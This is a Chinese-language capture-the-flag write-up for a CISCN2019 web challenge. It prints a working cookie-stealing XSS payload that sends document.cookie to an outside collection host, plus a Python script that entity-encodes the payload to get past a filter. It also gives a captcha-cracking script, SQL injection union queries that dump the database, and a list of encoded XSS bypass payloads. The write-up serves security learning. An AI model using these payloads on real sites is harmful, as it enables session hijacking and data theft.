



# CISCN2019华东北赛区-Web2

一进来发现是一个论坛，发现可以投稿，随便注册一个号



扫目录发现有admin.php



然后抓包发现有session，猜测要我们获取管理员的session，然后拿到flag。

发现投稿存在XSS漏洞

但是有一些过滤，`''(''`被转义成了`"（"`，存在WAF，先转码，然后eval执行JS代码，并且需要一个`window.location.href`来自动触发刷新页面

使用题目提供的BUU的XSS平台查看代码，删除`if`那一部分

```
(function(){window.location.href='http://xss.buuoj.cn/index.php?do=api&id=FKKdNv&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
```

**注意代码中的`id=`后面的内容要替换为自己的。**
然后编码绕过

脚本：

```
in_str = "(function(){window.location.href='http://xss.buuoj.cn/index.php?do=api&id=FKKdNv&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"

output = ""

for c in in_str:
    output += "&#" + str(ord(c))

print("<svg><script>eval&#40&#34" + output + "&#34&#41</script>")
```

得到的结果进行投稿。
发布成功后，复制投稿地址，如果页面跳转，来不及复制，可以BurpSuite进行抓包。
点击反馈，记得要把一部分替换为`web`



这里需要破解验证码才能反馈，

破解验证码
脚本

```python
import hashlib

def func(md5_val):
    for x in range(999999, 100000000):
        md5_value = hashlib.md5(str(x).encode("gb2312")).hexdigest()
        if md5_value[:6] == md5_val:
            return str(x)

if __name__ == '__main__':
    print(func('')) #这里写入页面的那6个字符

```

发送成功。

在XSS平台看到有人访问，并且提取到了session

进行替换，然后访问admin.php
进行sql查询

```
-2 union select 1,2,3#

-2 union select 1,database(),user()#

-2 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ciscn'#

-2 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag'#

-2 union select 1,2,group_concat(flagg) from ciscn.flag#
```

---

## 前置知识-XSS之HTML实体编码绕过

```
<svg>开头能执行编码后的代码，是因为浏览器在解析混合命名空间内容时，对SVG内部的<script>标签采用了不同的实体处理逻辑，这属于HTML5规范的一个灰色地带，被攻击者利用来绕过安全过滤。
```

## payload

### svg标签

```
<svg><script>&#101;&#118;&#97;&#108;('alert(1)')</script>           -->eval('alert(1)')

<svg><script>&#97;&#108;&#101;&#114;&#116;(1)</script></svg>        -->alert(1)

<svg onload="&#97;&#108;&#101;&#114;&#116;(4)"></svg>               -->alert(4)
```

### srcdoc属性（iframe）

```
<iframe srcdoc="<script>&#97;&#108;&#101;&#114;&#116;(1)</script>"></iframe>
```

### frameset和frame

```
<frameset>
  <frame src="javascript:&#97;&#108;&#101;&#114;&#116;(1)">
</frameset>
```

### object

```
<object data="data:text/html,<script>&#97;&#108;&#101;&#114;&#116;(1)</script>"></object>
```

### embed

```
<embed src="data:text/html,<script>&#97;&#108;&#101;&#114;&#116;(1)</script>">
```


